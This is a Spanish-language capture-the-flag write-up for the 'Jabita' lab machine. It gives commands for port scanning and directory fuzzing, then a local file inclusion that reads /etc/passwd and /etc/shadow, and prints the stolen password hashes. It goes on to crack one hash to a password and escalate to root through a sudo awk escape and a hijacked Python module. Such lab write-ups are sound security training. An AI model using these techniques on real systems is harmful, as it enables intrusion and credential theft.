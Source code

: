 ```yaml
---
layout: post
title: Jabita
date: 2022-11-27
categories: ["HMV"]
thumbnail: "assets/images/Jabita.png"
---
```


# Jabita [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.115 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.115 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Una vez entramos en la página vemos un texto sin relevancia, como no vemos ningún hipervínculo ni comentarios en el código de la página pazaremos a `fuzzear` la página, para ello utilizaremos `WFuzz`, una herramienta hecha en `Python` que nos ayudará en la búsqueda de directorios.
- `wfuzz -u "http://192.168.1.115/FUZZ" -w directory-list-2.3-medium.txt --hc 404`

Tras esperar unos segundos veremos un resultado, `building`. Si inspeccionamos la página veremos que ahora sí hay algo más, arriba vemos tres hipervínculos, los cuales tienen un parámetro que nos llama la atención, `page=`, vamos a ver si es vulnerable a `LFI`.

- `curl http://192.168.1.115/building/index.php?page=/etc/passwd`

```
[...]
root:x:0:0:root:/root:/bin/bash
[...]
jack:x:1001:1001::/home/jack:/bin/bash
jaba:x:1002:1002::/home/jaba:/bin/bash
```

Bien! Vemos que sí es vulnerable! Tras un intento fallido de listar la `id_rsa` de los usuarios `jack` y `jaba` por curiosidad probé con `/etc/shadow`, un archivo el cual (generalmente) está protegido, aunque no es el caso.

```
[...]
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

Además el hash de `root` (el cual no es crackeable) vemos otros dos hashes, el de `jack` y el de `jaba` (tampoco es crackeable), por lo que vamos a copiarnos esa información y con `John` crackear la contraseña de `Jack`.

- `john hash.txt -w=/usr/share/wordlists/rockyou.txt`

Bien! `John` ha sido capaz de crackear al contraseña (`jack:joaninha`)!

### Subida de privilegios #1
Bien, ahora que ya estamos en la máquina por `SSH` tenemos que convertirnos en `jaba` para luego poder convertirnos en `root`, para ello comenzé por hacer `sudo -l`:

```
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
```

Como vemos `Jack` puede ejecutar `AWK` como el usuario `Jaba` sin proporcionar contraseña, para poder explotarlo nos vamos a [`GTFObins`](https://gtfobins.github.io/gtfobins/awk/#sudo), el cual nos dice cómo hacerlo.

- `sudo -u jaba awk 'BEGIN {system("/bin/sh")}'`

Estupendo! Ya estamos en la máquina como `Jaba`!

### Subida de privilegios #2
Bien, ahora que ya hemos escalado privilegios ya podemos pasar a ser `root`, para ello vuelvo a ejecutar `sudo -l`.

```
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```

Como vemos podemos ejecutar con `Python` un `script` llamado `clean.py` como `root`. Si lo ejecutamos sólo nos saldrá un simple `Hello`. Por desgracia no podemos escribir en este archivo, pero vemos que está importando un módulo llamado `wild`, vamos a buscarlo:

- `find / -iname wild.py 2>/dev/null`

```
/usr/lib/python3.10/wild.py
```

Vemos que nos ha salido un resultado, si abrimos el archivo veremos lo siguiente:

```Python
def first():
    print("Hello")
```

Vemos que concuerda y además podemos escribir, por lo que podemos hacer que nos otorgue una Shell añadiendo lo siguiente:

```Python
def first():
    print("Hello")
import os
os.system("/bin/bash")
```

Bien! Tras volver a ejecutar el fichero como `root` hemos podido ganar la Shell! Qué fácil!